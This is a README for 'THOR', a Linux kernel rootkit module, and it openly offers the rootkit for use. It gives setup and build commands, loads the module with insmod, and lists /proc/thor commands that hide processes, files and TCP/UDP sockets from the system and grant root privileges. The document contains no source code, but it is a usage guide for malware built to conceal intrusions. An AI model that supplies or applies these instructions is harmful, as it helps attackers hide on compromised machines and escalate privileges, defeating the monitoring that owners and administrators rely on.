 # THOR

The Horrific Omnipotent Rootkit - or something like that, targeted at kernel
3.14 (archlinux LTS at the time of writing).

## Requirements

Apart from the linux kernel headers, the linux source code is required in order
to build this rootkit since unexported code is used.

Just make sure `/usr/src/linux` points to the linux source directory of the
target kernel. Or you could simply change the `Makefile`.

## How to Setup (Arch)

    # pacman -S abs linux-headers
    # abs
    # cd /var/abs/core/linux
    # makepkg -o --asroot
    # ln -s /var/abs/core/linux/src/linux-3.17 /usr/src/linux

## How to Build

    $ cd /path/to/thor
    $ make
    # insmod thor.ko

## How to Use

    usage:
       echo hp PID    > /proc/thor     (hides process PID)
       echo up PID    > /proc/thor     (unhides process PID)
       echo upa       > /proc/thor     (unhide all PIDs)
       echo hf FILE   > /proc/thor     (hide file FILE)
       echo uf FILE   > /proc/thor     (unhide file FILE)
       echo ufa       > /proc/thor     (unhide all files)
       echo ht4s PORT > /proc/thor     (hide tcp4 socket)
       echo ut4s PORT > /proc/thor     (unhide tcp4 socket)
       echo ut4a      > /proc/thor     (unhide all tcp4 sockets)
       echo ht6s PORT > /proc/thor     (hide tcp6 socket)
       echo ut6s PORT > /proc/thor     (unhide tcp6 socket)
       echo ut6a      > /proc/thor     (unhide all tcp6 sockets)
       echo hu4s PORT > /proc/thor     (hide udp4 socket)
       echo uu4s PORT > /proc/thor     (unhide udp4 socket)
       echo uu4a      > /proc/thor     (unhide all udp4 sockets)
       echo hu6s PORT > /proc/thor     (hide udp6 socket)
       echo uu6s PORT > /proc/thor     (unhide udp6 socket)
       echo uu6a      > /proc/thor     (unhide all udp6 sockets)
       echo root      > /proc/thor     (gain root privileges)

## Acknowledgement

- [Arkadiusz "ivyl" Hiler](https://github.com/ivyl/rootkit)
- [Morgan "mrrrgn" Phillips](https://github.com/mrrrgn/simple-rootkit)
- [uzyszkodnik](https://github.com/uzyszkodnik/rootkit)
- [Michael "mncoppola" Coppola] (https://github.com/mncoppola/suterusu)
